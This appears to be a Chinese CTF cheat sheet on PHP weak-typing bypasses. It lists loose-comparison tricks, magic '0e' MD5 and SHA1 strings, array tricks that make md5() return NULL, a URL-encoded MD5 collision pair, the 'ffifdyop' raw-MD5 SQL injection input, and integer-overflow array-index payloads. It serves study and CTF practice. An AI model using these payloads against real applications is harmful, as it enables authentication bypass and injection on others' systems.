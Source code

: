 ## **php弱类型：**
<https://www.cnblogs.com/linfangnan/p/13411103.html>
**类型相等判断**
PHP 比较 2 个值是否相等可以用 “ == ” 或 “ === ”，“ == ” 会在比较时自动转换类型而不改变原来的值，因此这个符号经常出现漏洞。“ == ” 比较相等的一些常见值如下，当某些语句的判断条件是使用 “ == ”来判断时，就可以使用弱类型来替代。值得一提的是 “0e” 开头的哈希字符串，PHP 在处理哈希字符串时会把每一个以 “0E” 开头的哈希值都解释为 0。

```
'' == 0 == false == "0"
"00" == true
'123' == 123
'abc' == 1 == true  常见于字符串判断相等。
要和一个随机数串弱比较==相同，直接[true,true]==12

'123a' == 123
'123);// ' == 123
'0x01' == 1
'0e12346789' == '0e987654321'
[false] == [0] == [NULL] == ['']
NULL == false == 0
true == 1

'1%2b2' == 1
'1+2' == 1

?num=1+2
$a=$_GET['num'] ==1
intval(a) == 3 
intval(1+2) == 3
intval("1+2") == 1
intval(" '1000' ") == 0
echo intval([0])  // 1 传一个数组永远为1

intval科学计数返回前面，科学计数后有+好返回字符串拼接后值。
intval(2019e1) == 2019
intval(2019e1+1) == 20191 

echo intval(0x117c,0) // 输出10进制4476  
第二个参数默认base是10，如果 base 是0则通过检测 var 的格式来决定使用的进制： 
◦ 如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，  
◦ 如果字符串以 "0" 开始，使用 8 进制(octal)；否则，  
◦ 将使用 10 进制 (decimal)。 

intval(010574,0) //返回值为4476
intval(+010574,0) //返回值为4476

intval(4476.1,0) //返回值为4476
intval(4476.10,0) //返回值为4476

intval(0) == 'flag字符串'
intval(aaa123) == 'flag字符串'
intval(false) == 'flag字符串'
intval(md5(phpinfo())) == '字符串' == 0  字母开头
```

如果遇到了 “===” 则不会进行类型转换，但也并不代表无从下手。如果条件表达式中含有函数，也可以通过**传入数组**让函数返回 NULL 使得条件满足。



^
## **md5判断**
**弱绕过**
```
if(md5($_POST['md51']) == md5($_POST['md52']) 
     && $_POST['md51'] != $_POST['md52'])
```
方法1：

PHP 在处理哈希字符串时，“0e” 开头的值利用 “==” 判断相等时会被视为 0。所以如果两个不同的密码经过哈希以后，其哈希值都是以 ”0E” 开头的，那么 PHP 将会认为他们相同。
md5(QNKCDZO)==0

md51和md52取以下两值
QNKCDZO  s155964671a  s1091221200a  240610708
方法2：
数组绕过，原理是 md5() 等函数不能处理数组，导致函数返回Null。而Null是等于Null的，导致了绕过。
?md51[]=1&md52[]=2

^
**强绕过**
```
if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
}



a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

^
**特性**
md5("123") === md5(123)
md5("INF") === md5(INF)
md5("NAN") === md5(NAN)
在PHP中，NAN是一个特殊的浮点数值，表示非数值（Not-A-Number）。当一个运算无法计算结果时，比如零除以零，就会产生NAN。PHP中的INF是一个特殊的浮点数值，表示无穷大（Infinity）。当数值超过PHP_FLOAT_MAX或者使用一些数学函数产生极大或极小的结果时，就会得到INF。

^
**php中原值和md5(原值)后要==**
原值为0e215962017即可


^
**数据库中的MD5造成注入：**
```
select * from 'admin' where password=md5($pass,true)
```
```
<?php
$pass = "ffifdyop";
echo md5($pass,ture);  //为'or'6?]??!r,??b
?>
```
所以传入ffifdyop即可密码正确。


^
## **sha哈希**
和md5类似，

以下值在sha1加密后以oE开头：
```
sha1('aaroZmOk')
sha1('aaK1STfY')
sha1('aaO8zKZF')
sha1('aa3OFF9m')
```
^
## **php整数溢出**
PHP中整数溢出的具体值取决于系统的架构（32位还是64位）。在32位系统中，整数的范围是 -2147483648 到 2147483647，当超过这个范围时会发生溢出。在64位系统中，整数的范围是 -9223372036854775808 到 9223372036854775807。

当一个整数超过了系统所能表示的最大值，它会回绕到最小值。同样，当一个整数低于系统所能表示的最小值，它会回绕到最大值。这就是整数溢出的发生。

在PHP中，如果整数发生溢出，它不会引发错误，而是静默地产生一个新的整数值。例如，在32位系统中，如果一个整数超过了2147483647，它将回绕到-2147483648。这种行为可能导致程序逻辑错误，因此在处理较大数值时应该格外小心。

```
$arr[$_GET['0']]=1;
if($arr[]==1){ //末尾为1？ 
die($flag);
}

?0=2147483647   //使用数组整型溢出绕过赋值式“永真”
?0[]=1   //数组绕过
```


```
$arr[$_GET['0']]=1;
if($arr[]=1){  //$arr[]=1意思是给数组下一个下标赋值为1
die();
}else{
echo $flag;
}

?0=9223372036854775807     //数组下标溢出，要刚刚好，多了会截断，刚刚好时，经过$arr[]=1下标直接溢出，无法赋值。
```

^
对于会x10倍的数，传入比溢出数少1位的数大一点即可。
```
如932337203685477581
```